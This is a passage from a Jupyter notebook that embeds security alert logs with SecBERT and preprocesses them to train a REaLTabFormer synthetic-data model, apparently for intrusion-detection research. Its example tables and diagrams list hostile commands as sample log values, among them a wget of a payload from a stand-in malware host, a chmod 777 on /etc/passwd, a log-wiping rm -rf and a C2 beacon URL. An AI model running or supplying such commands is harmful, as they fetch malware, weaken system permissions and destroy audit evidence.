# Plot 1: Distribution of non-null percentages
ax1 = axes[0]
bins = [0, 10, 20, 30, 40, 50, 60, 70, 80, 90, 100]
hist_data = non_null_pct.values
counts, edges, patches = ax1.hist(hist_data, bins=bins, edgecolor='black', alpha=0.7, color='steelblue')
ax1.axvline(x=50, color='red', linestyle='--', linewidth=2, label='50% threshold')
ax1.set_xlabel('Non-Null Percentage (%)', fontsize=12)
ax1.set_ylabel('Number of Columns', fontsize=12)
ax1.set_title('Distribution of Data Completeness (Selected Features)', fontsize=14, fontweight='bold')
ax1.legend()

# Add count labels on bars
for count, edge in zip(counts, edges[:-1]):
    if count > 0:
        ax1.text(edge + 5, count + 0.5, f'{int(count)}', ha='center', fontsize=10)

# Plot 2: All selected columns by data completeness
ax2 = axes[1]
top_cols = non_null_pct.sort_values()
colors = ['green' if v >= 50 else 'orange' if v >= 20 else 'red' for v in top_cols.values]
bars = ax2.barh(range(len(top_cols)), top_cols.values, color=colors, alpha=0.7)
ax2.set_yticks(range(len(top_cols)))
ax2.set_yticklabels([c[:40] + '...' if len(c) > 40 else c for c in top_cols.index], fontsize=7)
ax2.axvline(x=50, color='red', linestyle='--', linewidth=2, label='50%')
ax2.set_xlabel('Non-Null Percentage (%)', fontsize=12)
ax2.set_title('Selected Columns by Data Completeness', fontsize=14, fontweight='bold')

plt.tight_layout()
plt.savefig(f"{CONFIG['output_dir']}/data_completeness.png", dpi=150, bbox_inches='tight')
plt.show()

# Summary statistics
cols_above_50 = (non_null_pct >= 50).sum()
cols_above_20 = (non_null_pct >= 20).sum()
cols_100 = (non_null_pct == 100).sum()

print(f"\n📈 COMPLETENESS SUMMARY (Selected Features):")
print(f"   • Columns with 100% data: {cols_100}")
print(f"   • Columns with ≥50% data: {cols_above_50}")
print(f"   • Columns with ≥20% data: {cols_above_20}")
print(f"   • Total selected: {len(non_null_pct)}")
print("=" * 70)

## 🔐 SecBERT Embeddings for Textual Features

### What is SecBERT?

**SecBERT** is a BERT model pre-trained specifically on cybersecurity text corpora. Unlike general-purpose embeddings, SecBERT understands security-specific terminology:
- Attack commands and shell syntax
- File paths and system executables
- Network protocols and URLs
- Security rule descriptions

### Why Use SecBERT with REaLTabFormer?

```
┌────────────────────────────────────────────────────────────────────┐
│                   SecBERT Integration Pipeline                      │
├────────────────────────────────────────────────────────────────────┤
│                                                                     │
│   Textual Column (e.g., "rm -rf /var/log/*")                       │
│              │                                                      │
│              ▼                                                      │
│   ┌──────────────────┐                                             │
│   │    SecBERT       │  Pre-trained on:                            │
│   │    Encoder       │  • Security blogs & papers                   │
│   │                  │  • CVE descriptions                          │
│   │   768-dim        │  • Malware analysis reports                  │
│   │   embeddings     │  • Threat intelligence feeds                 │
│   └──────────────────┘                                             │
│              │                                                      │
│              ▼                                                      │
│   [0.23, -0.45, 0.12, ..., 0.78]  (768 dimensions)                 │
│              │                                                      │
│              ▼                                                      │
│   Used for:                                                         │
│   • Sensitivity threshold computation (privacy)                     │
│   • Quality validation (semantic similarity)                        │
│   • Enhanced pattern learning                                       │
└────────────────────────────────────────────────────────────────────┘
```

### 📝 Columns Enhanced with SecBERT:

| Column | Description | Example |
|--------|-------------|---------|
| `_source.rule.description` | Human-readable rule text | "Attempted SSH brute force" |
| `_source.data.command` | Shell commands executed | `wget http://malware.com/payload` |
| `_source.data.audit.exe` | Executable paths | `/usr/bin/python3` |
| `_source.data.audit.command` | Audit command logs | `sudo chmod 777 /etc/passwd` |
| `_source.syscheck.path` | File paths modified | `/etc/crontab` |
| `_source.data.url` | Network URLs accessed | `http://c2server.com/beacon` |

**Note**: REaLTabFormer can handle text natively, but SecBERT embeddings provide richer semantic understanding for security-specific text patterns.

In [6]:
# ============================================================================
# 🔐 SecBERT EMBEDDINGS FOR TEXTUAL FEATURES
# ============================================================================

print("=" * 70)
print("🔐 SECBERT EMBEDDINGS FOR TEXTUAL FEATURES")
print("=" * 70)

# Initialize SecBERT model
secbert_model = None
text_embeddings = {}  # Will store (n_samples, 768) arrays per column

if CONFIG['use_secbert'] and SECBERT_AVAILABLE:
    print(f"\n📥 Loading SecBERT model: {CONFIG['secbert_model']}")
    
    try:
        # Try SecBERT first, fallback to general security model
        try:
            secbert_model = SentenceTransformer(CONFIG['secbert_model'])
            print(f"   ✅ Loaded SecBERT: {CONFIG['secbert_model']}")
        except:
            # Fallback to a similar security-aware model
            secbert_model = SentenceTransformer('all-MiniLM-L6-v2')
            print(f"   ⚠️ SecBERT unavailable, using: all-MiniLM-L6-v2")
        
        # Move to GPU if available
        if device == 'cuda':
            secbert_model = secbert_model.to(device)
            print(f"   🚀 Model moved to GPU")
        
        # Get embedding dimension
        test_emb = secbert_model.encode(['test'], show_progress_bar=False)
        CONFIG['embedding_dim'] = test_emb.shape[1]
        print(f"   📐 Embedding dimension: {CONFIG['embedding_dim']}")
        
    except Exception as e:
        print(f"   ❌ Error loading SecBERT: {e}")
        secbert_model = None

# ============================================================================
# 🔄 GENERATE EMBEDDINGS FOR TEXTUAL COLUMNS (Per-Row Arrays!)
# ============================================================================

if secbert_model is not None:
    print(f"\n🔄 GENERATING PER-ROW EMBEDDINGS FOR TEXTUAL COLUMNS:")
    print("-" * 70)
    
    n_samples = len(raw_data)
    
    for col in TEXTUAL_COLUMNS:
        if col in raw_data.columns:
            non_null_count = raw_data[col].notna().sum()
            if non_null_count > 0:
                print(f"\n   📝 Processing: {col}")
                print(f"      Rows: {n_samples:,}")
                
                # Get unique values to reduce computation (but map back to all rows!)
                col_values = raw_data[col].fillna('').astype(str).str[:512]  # Truncate to 512 chars
                unique_texts = col_values.unique()
                
                print(f"      Unique values: {len(unique_texts):,}")
                
                # Generate embeddings for unique values
                texts_to_embed = list(unique_texts)
                
                print(f"      🔄 Encoding {len(texts_to_embed)} unique texts...")
                unique_embeddings = secbert_model.encode(
                    texts_to_embed, 
                    show_progress_bar=True,
                    batch_size=64,
                    device=device
                )
                
                # Create lookup dictionary: text -> embedding
                embedding_lookup = {text: emb for text, emb in zip(unique_texts, unique_embeddings)}
                
                # Map embeddings to ALL rows (n_samples, embedding_dim)
                print(f"      🔄 Mapping embeddings to all {n_samples:,} rows...")
                row_embeddings = np.array([embedding_lookup[text] for text in col_values])
                
                # Store as (n_samples, 768) array
                text_embeddings[col] = row_embeddings
                
                print(f"      ✅ Final shape: {row_embeddings.shape} (should be ({n_samples}, {CONFIG['embedding_dim']}))")
                
                # Add summary statistics for the embeddings
                emb_norms = np.linalg.norm(row_embeddings, axis=1)
                print(f"      📊 Embedding norms: min={emb_norms.min():.3f}, max={emb_norms.max():.3f}, mean={emb_norms.mean():.3f}")
            else:
                print(f"\n   ⚠️ Skipping {col}: no non-null values")
                text_embeddings[col] = None
        else:
            print(f"\n   ⚠️ Skipping {col}: not in dataframe")
    
    print("\n" + "=" * 70)
    print(f"✅ EMBEDDINGS GENERATED FOR {sum(1 for v in text_embeddings.values() if v is not None)} COLUMNS")
    
    # Verify shapes
    print("\n📊 EMBEDDING SHAPES:")
    for col, emb in text_embeddings.items():
        if emb is not None:
            print(f"   {col}: {emb.shape}")
        else:
            print(f"   {col}: None")
    
    print("=" * 70)
    
    # Save embeddings for later use
    embeddings_path = f"{CONFIG['output_dir']}/secbert_embeddings.pkl"
    with open(embeddings_path, 'wb') as f:
        pickle.dump(text_embeddings, f)
    print(f"💾 Embeddings saved to: {embeddings_path}")
    
else:
    print("\n⚠️ SecBERT not available - textual columns will be handled natively by REaLTabFormer")
    print("   (REaLTabFormer has built-in text handling, but without security-domain semantics)")

print("=" * 70)

🔐 SECBERT EMBEDDINGS FOR TEXTUAL FEATURES

📥 Loading SecBERT model: jackaduma/SecBERT
   ✅ Loaded SecBERT: jackaduma/SecBERT
   🚀 Model moved to GPU
   📐 Embedding dimension: 768

🔄 GENERATING PER-ROW EMBEDDINGS FOR TEXTUAL COLUMNS:
----------------------------------------------------------------------

   📝 Processing: _source.rule.description
      Rows: 25,418
      Unique values: 232
      🔄 Encoding 232 unique texts...


Batches: 100%|██████████| 4/4 [00:00<00:00, 22.59it/s]


      🔄 Mapping embeddings to all 25,418 rows...
      ✅ Final shape: (25418, 768) (should be (25418, 768))
      📊 Embedding norms: min=12.726, max=22.393, mean=19.756

   📝 Processing: _source.data.command
      Rows: 25,418
      Unique values: 1,076
      🔄 Encoding 1076 unique texts...


Batches: 100%|██████████| 17/17 [00:02<00:00,  8.17it/s]


      🔄 Mapping embeddings to all 25,418 rows...
      ✅ Final shape: (25418, 768) (should be (25418, 768))
      📊 Embedding norms: min=12.774, max=24.080, mean=23.664

   📝 Processing: _source.data.audit.command
      Rows: 25,418
      Unique values: 18
      🔄 Encoding 18 unique texts...


Batches: 100%|██████████| 1/1 [00:00<00:00, 193.11it/s]


... (3 outputs left out)

Batches: 100%|██████████| 28/28 [00:00<00:00, 39.09it/s]


      🔄 Mapping embeddings to all 25,418 rows...
      ✅ Final shape: (25418, 768) (should be (25418, 768))
      📊 Embedding norms: min=14.783, max=24.080, mean=23.308

   📝 Processing: _source.data.url
      Rows: 25,418
      Unique values: 12,269
      🔄 Encoding 12269 unique texts...


Batches: 100%|██████████| 192/192 [00:18<00:00, 10.49it/s]


      🔄 Mapping embeddings to all 25,418 rows...
      ✅ Final shape: (25418, 768) (should be (25418, 768))
      📊 Embedding norms: min=12.447, max=24.080, mean=18.443

✅ EMBEDDINGS GENERATED FOR 6 COLUMNS

📊 EMBEDDING SHAPES:
   _source.rule.description: (25418, 768)
   _source.data.command: (25418, 768)
   _source.data.audit.command: (25418, 768)
   _source.data.audit.exe: (25418, 768)
   _source.syscheck.path: (25418, 768)
   _source.data.url: (25418, 768)
💾 Embeddings saved to: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output/secbert_embeddings.pkl


### 🔍 Column Type Analysis

The cell below analyzes all selected features and categorizes them for optimal handling by REaLTabFormer:

| Category | Handling Strategy | Examples |
|----------|-------------------|----------|
| **Text** | Tokenized as-is, optional SecBERT | `rule.description`, `command` |
| **Categorical** | Direct token encoding | `decoder.name`, `mitre.tactic` |
| **Numeric** | Discretized or normalized | `rule.level`, `firedtimes` |
| **Boolean** | Converted to "True"/"False" strings | `has_audit`, `has_syscheck` |

In [7]:
# ============================================================================
# 🔍 ANALYZE COLUMN TYPES FOR REaLTabFormer
# ============================================================================

print("=" * 70)
print("🔍 ANALYZING FINAL COLUMN TYPES")
print("=" * 70)

# ============================================================================
# DEFINE COLUMN CATEGORIES (Based on our feature list)
# ============================================================================

# Text columns (including SecBERT candidates)
text_columns = [
    '_source.rule.description',
    '_source.data.command',
    '_source.data.audit.command',
    '_source.data.audit.exe',
    '_source.syscheck.path',
    '_source.data.url',
    '_source.@timestamp',
    '_source.syscheck.md5_after',
    '_source.syscheck.sha256_after',
]

# Categorical columns
categorical_columns = [
    'malicious',
    'cyber_kill_chain_summary',
    '_source.decoder.name',
    '_source.location',
    '_source.data.srcip',
    '_source.rule.mitre.tactic',
    '_source.rule.mitre.id',
    '_source.rule.groups',
    '_source.data.audit.syscall',
    '_source.data.audit.success',
    '_source.syscheck.event',
    '_source.syscheck.perm_before',
    '_source.syscheck.perm_after',
    '_source.syscheck.changed_attributes',
    '_source.data.sca.check.result',
    '_source.data.protocol',
]

# Numeric columns
numeric_columns = [
    '_source.rule.level',
    '_source.rule.firedtimes',
    '_source.data.audit.uid',
    '_source.data.audit.euid',
    '_source.data.audit.gid',
    '_source.data.audit.auid',
    '_source.syscheck.size_before',
    '_source.syscheck.size_after',
    '_source.data.sca.failed',
    '_source.data.sca.passed',
    '_source.data.sca.score',
    '_source.data.srcport',
]

# Boolean columns
boolean_columns = [
    'has_audit',
    'has_syscheck',
    'has_sca',
    'has_network',
]

# Filter to only existing columns in raw_data
text_columns = [c for c in text_columns if c in raw_data.columns]
categorical_columns = [c for c in categorical_columns if c in raw_data.columns]
numeric_columns = [c for c in numeric_columns if c in raw_data.columns]
boolean_columns = [c for c in boolean_columns if c in raw_data.columns]

print(f"\n📊 Column Categories Defined:")
print(f"   • Text columns: {len(text_columns)}")
print(f"   • Categorical columns: {len(categorical_columns)}")
print(f"   • Numeric columns: {len(numeric_columns)}")
print(f"   • Boolean columns: {len(boolean_columns)}")

# ============================================================================
# ANALYZE COLUMNS
# ============================================================================

def analyze_column(col_name, series):
    """Analyze a column and determine its type for REaLTabFormer"""
    non_null = series.dropna()
    n_unique = non_null.nunique()
    n_total = len(non_null)
    unique_ratio = n_unique / n_total if n_total > 0 else 0
    
    info = {
        'name': col_name,
        'dtype': str(series.dtype),
        'non_null_pct': (len(non_null) / len(series)) * 100,
        'n_unique': n_unique,
        'unique_ratio': unique_ratio,
        'sample_values': list(non_null.head(3).values) if n_total > 0 else [],
    }
    
    # Determine column category based on our classification
    if col_name in text_columns:
        info['category'] = 'text'
        info['has_secbert'] = col_name in TEXTUAL_COLUMNS and col_name in text_embeddings
    elif col_name in categorical_columns:
        info['category'] = 'categorical'
        info['has_secbert'] = False
    elif col_name in numeric_columns:
        info['category'] = 'numeric'
        info['has_secbert'] = False
    elif col_name in boolean_columns:
        info['category'] = 'boolean'
        info['has_secbert'] = False
    else:
        info['category'] = 'other'
        info['has_secbert'] = False
    
    return info

# Analyze all columns
column_analysis = []
for col in tqdm(raw_data.columns, desc="Analyzing columns"):
    analysis = analyze_column(col, raw_data[col])
    column_analysis.append(analysis)

analysis_df = pd.DataFrame(column_analysis)

# Display category distribution
print("\n📊 COLUMN CATEGORY DISTRIBUTION:")
print("-" * 70)
category_counts = analysis_df['category'].value_counts()
for cat, count in category_counts.items():
    secbert_count = analysis_df[analysis_df['category'] == cat]['has_secbert'].sum()
    secbert_info = f" (🔐 {secbert_count} with SecBERT)" if secbert_count > 0 else ""
    print(f"   • {cat}: {count} columns{secbert_info}")

# Display all columns with their categories
print("\n📋 ALL COLUMNS BY CATEGORY:")
print("-" * 70)

for category in ['text', 'categorical', 'numeric', 'boolean', 'other']:
    cat_cols = analysis_df[analysis_df['category'] == category]
    if len(cat_cols) > 0:
        print(f"\n   {category.upper()} ({len(cat_cols)}):")
        for _, row in cat_cols.iterrows():
            status = "✅" if row['non_null_pct'] >= 50 else "⚠️" if row['non_null_pct'] >= 20 else "❌"
            secbert = "🔐" if row['has_secbert'] else ""
            print(f"      {status} {row['name'][:40]:<40} ({row['non_null_pct']:.1f}%) {secbert}")

# Summary statistics
print("\n📈 SUMMARY:")
print(f"   • Total columns: {len(analysis_df)}")
print(f"   • Columns with ≥50% data: {(analysis_df['non_null_pct'] >= 50).sum()}")
print(f"   • Columns with SecBERT: {analysis_df['has_secbert'].sum()}")
print("\n" + "=" * 70)

🔍 ANALYZING FINAL COLUMN TYPES

📊 Column Categories Defined:
   • Text columns: 9
   • Categorical columns: 16
   • Numeric columns: 12
   • Boolean columns: 0


Analyzing columns: 100%|██████████| 38/38 [00:00<00:00, 746.29it/s]


📊 COLUMN CATEGORY DISTRIBUTION:
----------------------------------------------------------------------
   • categorical: 16 columns
   • numeric: 12 columns
   • text: 9 columns (🔐 6 with SecBERT)
   • other: 1 columns

📋 ALL COLUMNS BY CATEGORY:
----------------------------------------------------------------------

   TEXT (9):
      ✅ _source.@timestamp                       (100.0%) 
      ❌ _source.syscheck.md5_after               (11.3%) 
      ❌ _source.syscheck.sha256_after            (11.3%) 
      ✅ _source.rule.description                 (100.0%) 🔐
      ❌ _source.data.command                     (4.5%) 🔐
      ❌ _source.data.audit.exe                   (0.6%) 🔐
      ❌ _source.data.audit.command               (0.7%) 🔐
      ❌ _source.syscheck.path                    (11.3%) 🔐
      ✅ _source.data.url                         (73.5%) 🔐

   CATEGORICAL (16):
      ✅ malicious                                (100.0%) 
      ✅ cyber_kill_chain_summary                 (96.6%) 
 

## 🔧 Section 3: Data Preprocessing for REaLTabFormer

### REaLTabFormer Data Requirements

REaLTabFormer is designed to handle tabular data with minimal preprocessing:

| Data Type | Handling | Notes |
|-----------|----------|-------|
| **Text columns** | Kept as-is | No embedding needed - GPT-2 tokenizes directly |
| **Categorical** | Kept as-is | Native support for categorical tokens |
| **Numeric** | Kept as-is | Learned as numeric tokens |
| **Missing values** | Automatic | Handled as special `[MISSING]` token |

### 🔄 Preprocessing Pipeline:

```
┌─────────────────────────────────────────────────────────────────┐
│                  Preprocessing Pipeline                          │
├─────────────────────────────────────────────────────────────────┤
│                                                                  │
│  1. TRUNCATE LONG TEXT                                          │
│     └─▶ Description fields: max 300 chars                       │
│     └─▶ Other text: max 150 chars                               │
│     └─▶ Prevents token overflow in GPT-2                        │
│                                                                  │
│  2. TEMPORAL FEATURE EXTRACTION                                 │
│     └─▶ @timestamp → _hour_of_day, _day_of_week, _is_night     │
│     └─▶ Captures temporal attack patterns                       │
│                                                                  │
│  3. CATEGORICAL ENCODING                                        │
│     └─▶ Low-cardinality numerics → categorical strings          │
│     └─▶ e.g., rule.level (0-15) → "0", "1", ..., "15"          │
│                                                                  │
│  4. BOOLEAN CONVERSION                                          │
│     └─▶ True/False → "True"/"False" strings                     │
│                                                                  │
│  5. MISSING VALUE HANDLING                                      │
│     └─▶ Text: Empty string ""                                   │
│     └─▶ Categorical: "MISSING" token                            │
│     └─▶ Numeric: Kept as NaN (REaLTabFormer handles)            │
└─────────────────────────────────────────────────────────────────┘
```

Since we're using **predefined feature-selected columns**, we skip automatic column selection and directly preprocess the data.

In [8]:
# ============================================================================
# 🔧 USING PREDEFINED COLUMNS (Feature Selection Already Done)
# ============================================================================

print("=" * 70)
print("🔧 USING PREDEFINED FEATURE-SELECTED COLUMNS")
print("=" * 70)

# We already have raw_data with the selected columns from data loading
selected_columns = list(raw_data.columns)

print(f"\n✅ WORKING WITH {len(selected_columns)} COLUMNS:")

# Show columns by category
print(f"\n📋 COLUMNS BY CATEGORY:")
print("-" * 70)

# Group columns logically based on our feature list
column_groups = {
    '🎯 Target Variables': ['malicious', 'cyber_kill_chain_summary'],
    '🔴 Top Features (Feature Selection)': [
        '_source.rule.level', '_source.rule.firedtimes', '_source.decoder.name',
        '_source.location', '_source.@timestamp', '_source.data.srcip',
        '_source.syscheck.md5_after', '_source.syscheck.sha256_after'
    ],
    '📝 Textual (SecBERT)': ['_source.rule.description', '_source.data.command'],
    '🔗 MITRE ATT&CK': [c for c in selected_columns if 'mitre' in c.lower() and 'sca' not in c] + 
                       [c for c in selected_columns if 'groups' in c],
    '📊 Audit Data': [c for c in selected_columns if 'audit' in c],
    '📁 Syscheck (FIM)': [c for c in selected_columns if 'syscheck' in c and c not in 
                         ['_source.syscheck.md5_after', '_source.syscheck.sha256_after']],
    '🔒 SCA': [c for c in selected_columns if 'sca' in c.lower()],
    '🌐 Network': [c for c in selected_columns if any(x in c for x in ['protocol', 'srcport', 'url'])],
    '🏷️ Boolean Flags': [c for c in selected_columns if c.startswith('has_')],
}

for group, cols in column_groups.items():
    # Filter to only existing columns
    existing_in_group = [c for c in cols if c in selected_columns]
    if existing_in_group:
        print(f"\n   {group} ({len(existing_in_group)}):")
        for col in existing_in_group:
            non_null = raw_data[col].notna().sum() / len(raw_data) * 100
            dtype = raw_data[col].dtype
            # Mark textual columns with SecBERT indicator (check if array is not None)
            has_embedding = col in TEXTUAL_COLUMNS and col in text_embeddings and text_embeddings[col] is not None
            secbert_indicator = " 🔐" if has_embedding else ""
            print(f"      • {col}: {non_null:.1f}% non-null, dtype={dtype}{secbert_indicator}")

print("\n" + "=" * 70)

🔧 USING PREDEFINED FEATURE-SELECTED COLUMNS

✅ WORKING WITH 38 COLUMNS:

📋 COLUMNS BY CATEGORY:
----------------------------------------------------------------------

   🎯 Target Variables (2):
      • malicious: 100.0% non-null, dtype=int64
      • cyber_kill_chain_summary: 96.6% non-null, dtype=object

   🔴 Top Features (Feature Selection) (8):
      • _source.rule.level: 100.0% non-null, dtype=int64
      • _source.rule.firedtimes: 100.0% non-null, dtype=int64
      • _source.decoder.name: 100.0% non-null, dtype=object
      • _source.location: 100.0% non-null, dtype=object
      • _source.@timestamp: 100.0% non-null, dtype=object
      • _source.data.srcip: 74.4% non-null, dtype=object
      • _source.syscheck.md5_after: 11.3% non-null, dtype=object
      • _source.syscheck.sha256_after: 11.3% non-null, dtype=object

   📝 Textual (SecBERT) (2):
      • _source.rule.description: 100.0% non-null, dtype=object 🔐
      • _source.data.command: 4.5% non-null, dtype=object 🔐

   🔗 MITRE 

### 🔄 Data Preprocessing Execution

The cell below applies all preprocessing transformations:
- Identifies column types (text, categorical, numeric, boolean, timestamp)
- Truncates long text fields to prevent token overflow
- Extracts temporal features from timestamps
- Converts low-cardinality numerics to categorical
- Handles missing values appropriately per type

In [9]:
# ============================================================================
# 🔧 STRATIFIED SPLIT & PREPROCESSING
# ============================================================================

print("=" * 70)
print("🔧 CREATING STRATIFIED DATASETS")
print("=" * 70)

def preprocess_subset(df_subset, columns, source_name):
    """
    Preprocess a source-type subset for REaLTabFormer training.
    Only keeps relevant columns. Returns (processed_df, col_types).
    """
    existing = [c for c in columns if c in df_subset.columns]
    df = df_subset[existing].copy()

    col_types = {'text': [], 'categorical': [], 'numeric': []}

    for col in df.columns:
        dtype = df[col].dtype
        n_unique = df[col].nunique()

        if dtype == 'object':
            if n_unique > 100:
                col_types['text'].append(col)
                max_len = 300 if any(kw in col for kw in ['description', 'command', 'path', 'url']) else 150
                df[col] = df[col].fillna('').astype(str).str[:max_len]
                df[col] = df[col].replace({'nan': '', 'None': '', 'NaN': ''})
            else:
                col_types['categorical'].append(col)
                df[col] = df[col].fillna('MISSING').astype(str)
        elif dtype in ['int64', 'float64']:
            if n_unique <= 20:
                col_types['categorical'].append(col)
                df[col] = df[col].fillna(-1).astype(int).astype(str)
            else:
                col_types['numeric'].append(col)
        else:
            col_types['categorical'].append(col)
            df[col] = df[col].fillna('MISSING').astype(str)

    total_cells = df.shape[0] * df.shape[1]
    remaining_missing = df.isnull().sum().sum()
    missing_pct = remaining_missing / total_cells * 100 if total_cells > 0 else 0

    print(f"\n   {source_name.upper()}: {df.shape[0]:,} rows × {df.shape[1]} cols")
    print(f"      Text:        {len(col_types['text'])}")
    print(f"      Categorical: {len(col_types['categorical'])}")
    print(f"      Numeric:     {len(col_types['numeric'])}")
    print(f"      Missing:     {missing_pct:.2f}%")

    return df, col_types


# ── Build stratified datasets ──
strata = {}

for stype in list(SOURCE_TYPES.keys()) + ['base']:
    subset = raw_data[raw_data['_source_type'] == stype].copy()

    if len(subset) == 0:
        print(f"\n   ⚠️ {stype.upper()}: 0 rows — skipping")
        continue

    if stype == 'base':
        cols = UNIVERSAL_COLS
    else:
        cols = UNIVERSAL_COLS + SOURCE_TYPES[stype]['cols']

    df_processed, col_types = preprocess_subset(subset, cols, stype)

    strata[stype] = {
        'df': df_processed,
        'col_types': col_types,
        'all_cols': list(df_processed.columns),
        'n_rows': len(df_processed),
    }

# ── Summary ──
print("\n" + "=" * 70)
print("📊 STRATIFIED DATASETS SUMMARY")
print("=" * 70)
total_rows = sum(s['n_rows'] for s in strata.values())
for stype, info in strata.items():
    pct = info['n_rows'] / total_rows * 100
    n_cols = len(info['all_cols'])
    missing = info['df'].isnull().sum().sum() / (info['n_rows'] * n_cols) * 100 if info['n_rows'] * n_cols > 0 else 0
    print(f"   {stype:>10}: {info['n_rows']:>6,} rows × {n_cols:>2} cols | {pct:>5.1f}% of data | {missing:.1f}% missing")
print(f"   {'TOTAL':>10}: {total_rows:>6,} rows")
print("=" * 70)

# Combine all strata into a single df for downstream cells (visualization, comparison, etc.)
df = pd.concat([strata[s]['df'] for s in strata], ignore_index=True)
print(f"\n✅ Combined processed df: {df.shape[0]:,} rows × {df.shape[1]} cols")


🔧 CREATING STRATIFIED DATASETS

   NETWORK: 18,920 rows × 9 cols
      Text:        1
      Categorical: 8
      Numeric:     0
      Missing:     0.00%

   SYSCHECK: 2,862 rows × 10 cols
      Text:        2
      Categorical: 8
      Numeric:     0
      Missing:     0.00%

   SCA: 870 rows × 7 cols
      Text:        0
      Categorical: 7
      Numeric:     0
      Missing:     0.00%

   AUDIT: 165 rows × 14 cols
      Text:        0
      Categorical: 14
      Numeric:     0
      Missing:     0.00%

   BASE: 2,601 rows × 6 cols
      Text:        0
      Categorical: 6
      Numeric:     0
      Missing:     0.00%

📊 STRATIFIED DATASETS SUMMARY
      network: 18,920 rows ×  9 cols |  74.4% of data | 0.0% missing
     syscheck:  2,862 rows × 10 cols |  11.3% of data | 0.0% missing
          sca:    870 rows ×  7 cols |   3.4% of data | 0.0% missing
        audit:    165 rows × 14 cols |   0.6% of data | 0.0% missing
         base:  2,601 rows ×  6 cols |  10.2% of data | 0.0% miss

In [11]:
# ============================================================================
# 📊 VISUALIZE PREPROCESSED DATA
# ============================================================================

print("=" * 70)
print("📊 VISUALIZING PREPROCESSED DATA")
print("=" * 70)

# Filter column lists to what actually exists in the combined df
_text_cols = [c for c in text_columns if c in df.columns]
_cat_cols = [c for c in categorical_columns if c in df.columns]
_num_cols = [c for c in numeric_columns if c in df.columns]

# Create visualization
fig = make_subplots(
    rows=2, cols=2,
    subplot_titles=(
        'Column Type Distribution',
        'Data Completeness (Preprocessed)',
        'Top Categorical Value Counts',
        'Numeric Feature Distributions'
    ),
    specs=[[{"type": "pie"}, {"type": "bar"}],
           [{"type": "bar"}, {"type": "box"}]]
)

# 1. Column type distribution (pie)
type_counts = pd.Series({
    'Text': len(_text_cols),
    'Categorical': len(_cat_cols),
    'Numeric': len(_num_cols)
})
fig.add_trace(
    go.Pie(labels=type_counts.index, values=type_counts.values,
           marker_colors=['#2ecc71', '#3498db', '#e74c3c']),
    row=1, col=1
)

# 2. Data completeness
completeness = (df.notna().sum() / len(df) * 100).sort_values(ascending=True).tail(20)
fig.add_trace(
    go.Bar(x=completeness.values, y=[c[:30] for c in completeness.index],
           orientation='h', marker_color='steelblue'),
    row=1, col=2
)

# 3. Top categorical value counts (for first categorical column with reasonable cardinality)
cat_col = None
for c in _cat_cols:
    if c in df.columns and df[c].nunique() <= 20:
        cat_col = c
        break

if cat_col:
    value_counts = df[cat_col].value_counts().head(10)
    fig.add_trace(
        go.Bar(x=value_counts.values, y=[str(v)[:20] for v in value_counts.index],
               orientation='h', marker_color='coral'),
        row=2, col=1
    )
    fig.update_yaxes(title_text=cat_col[:30], row=2, col=1)

# 4. Numeric distributions
if _num_cols:
    for col in _num_cols[:5]:
        fig.add_trace(
            go.Box(y=df[col].dropna(), name=col[:20], boxpoints='outliers'),
            row=2, col=2
        )

fig.update_layout(
    height=800,
    title_text="📊 Preprocessed Data Overview",
    showlegend=False
)
fig.show()

# Save figure
fig.write_html(f"{CONFIG['output_dir']}/preprocessed_data_overview.html")
print(f"✅ Visualization saved to {CONFIG['output_dir']}/preprocessed_data_overview.html")
print("=" * 70)

📊 VISUALIZING PREPROCESSED DATA


✅ Visualization saved to c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output/preprocessed_data_overview.html


### 📊 Preprocessed Data Visualization

Interactive Plotly visualization showing:
1. **Column Type Distribution** (Pie): Proportion of text/categorical/numeric columns
2. **Data Completeness** (Bar): Top 20 most complete columns
3. **Categorical Value Counts**: Distribution for a sample categorical column
4. **Numeric Distributions** (Box): Statistical summary of numeric features

## 🧬 Section 4: REaLTabFormer Model Training

### How REaLTabFormer Works

REaLTabFormer uses a **GPT-2 based architecture** to learn and generate tabular data:

```
┌──────────────────────────────────────────────────────────────────────┐
│                   REaLTabFormer Training Process                      │
├──────────────────────────────────────────────────────────────────────┤
│                                                                       │
│  STEP 1: ROW SERIALIZATION                                           │
│  ┌─────────────────────────────────────────────────────────────────┐ │
│  │ {"malicious": 1, "rule.level": 12, "decoder": "sshd"} →        │ │
│  │ "malicious is 1, rule.level is 12, decoder is sshd"             │ │
│  └─────────────────────────────────────────────────────────────────┘ │
│                         │                                             │
│                         ▼                                             │
│  STEP 2: TOKENIZATION                                                │
│  ┌─────────────────────────────────────────────────────────────────┐ │
│  │ [BOS] mal icious _is _1 , _rule . level _is _12 ... [EOS]      │ │
│  │       └─── Subword tokens using BPE vocabulary ───┘             │ │
│  └─────────────────────────────────────────────────────────────────┘ │
│                         │                                             │
│                         ▼                                             │
│  STEP 3: TRANSFORMER TRAINING                                        │
│  ┌─────────────────────────────────────────────────────────────────┐ │
│  │              GPT-2 ARCHITECTURE                                  │ │
│  │   ┌────────────────────────────────────────┐                    │ │
│  │   │  12× Transformer Blocks:               │                    │ │
│  │   │  • Multi-head self-attention (12 heads)│                    │ │
│  │   │  • Feed-forward layers (768 → 3072)    │                    │ │
│  │   │  • Layer normalization                 │                    │ │
│  │   └────────────────────────────────────────┘                    │ │
│  │   Loss: Cross-entropy (next token prediction)                   │ │
│  └─────────────────────────────────────────────────────────────────┘ │
│                         │                                             │
│                         ▼                                             │
│  STEP 4: GENERATION (Sampling)                                       │
│  ┌─────────────────────────────────────────────────────────────────┐ │
│  │ [BOS] → mal → icious → _is → ? (sample from distribution)      │ │
│  │ Continue autoregressively until [EOS]                           │ │
│  └─────────────────────────────────────────────────────────────────┘ │
│                                                                       │
└──────────────────────────────────────────────────────────────────────┘
```

### 🎯 Key Advantages of REaLTabFormer:

| Advantage | Description |
|-----------|-------------|
| 🎯 **No Embedding Needed** | Text columns handled natively by GPT-2 tokenizer |
| 🔗 **Column Relationships** | Self-attention learns complex inter-column dependencies |
| 📊 **Mixed Types** | Seamlessly handles categorical, numeric, and text together |
| ❓ **Missing Values** | Native support via special tokens |
| 🔒 **Privacy Metrics** | Built-in sensitivity threshold computation |

### ⚙️ Training Hyperparameters:

| Parameter | Value | Purpose |
|-----------|-------|---------|
| `epochs` | 150 | Number of training epochs |
| `batch_size` | 32 | Samples per gradient update |
| `gradient_accumulation_steps` | 4 | Effective batch size = 128 |
| `train_size` | 0.95 | 95% train / 5% validation |
